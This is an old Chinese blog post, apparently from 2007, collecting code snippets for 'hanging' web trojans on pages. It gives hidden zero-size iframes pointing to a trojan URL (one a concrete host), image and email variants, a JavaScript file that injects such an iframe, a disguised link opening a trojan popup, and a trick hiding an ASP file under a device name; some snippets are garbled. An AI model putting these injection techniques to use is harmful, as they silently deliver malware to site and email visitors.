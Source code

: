 ```yaml
---
title: 各种网页木马挂马的代码
description: 1、嵌入网页以下是引用片段：2、PHP网页挂马以下是引用片段：..........................................................................
date: 2007-12-10 20:52:32
category: 杂七杂八
tags: ['脚本Script', '木马', '源码']
post_id: 286
alias: Web-Trojan-code
ViewNums: 4623
---
```

**1、嵌入网页**
以下是引用片段：
```html
<iframe src="http://网页木马地址" width="0" height="0" border="0"></iframe>
```
**2、PHP网页挂马**
以下是引用片段：
```html
<iframe src=http://qq.415358518.com width=0 height=0></iframe>
```
**3、图片木马**
以下是引用片段：
```html
<html>
<body>
<iframe src=网页木马地址 width=0 height=0></iframe>
<img src=图片地址></img>
</body>
</html>
**4、邮件木马**
以下是引用片段：
<html>
<body>
<iframe src=网页木马地址 width=0 height=0></iframe>
</body>
</html>
```
**5、flash木马**
http://网页木马地址 插入木马地址
width=10 height=10", "GET" 宽度和高度，方式
后面的照添，更改木马地址就可以了。

**6、做123.JS文件木马**
以下是引用片段：
```html
document.write("<iframe src=就是你的网页木马地址 width=0 height=0></iframe>")
<script language=javascript src=123.js></script>
```
再把这段代码写到 主页上！

**7、不点出现连接的木马**
以下是引用片段：
```html
<a href="http://www.163.com(迷惑的超级连接地址，显示这个地址指向木马地址)" > 页面要显示的内容 </a>
<SCRIPT Language="JavaScript">
function www_163_com ()
{
var url="你的木马地址";
open(url,"NewWindow","toolbar=no,location=no,directories=no,status=no,menubar=no,scrollbars=no,resizable=no,

copyhistory=yes,width=800,height=600,left=10,top=10");
}
</SCRIPT>
```
**8、asp木马超级隐藏**
```txt
copy C:Inetpubwwwrootmm11.htm \.C:Inetpubwwwrootmmcom1.htm
```
**9、利用邮箱传播木马**
这里主要点HTML格式----在里面写上以下这段代码:
```html
<body > </body>
```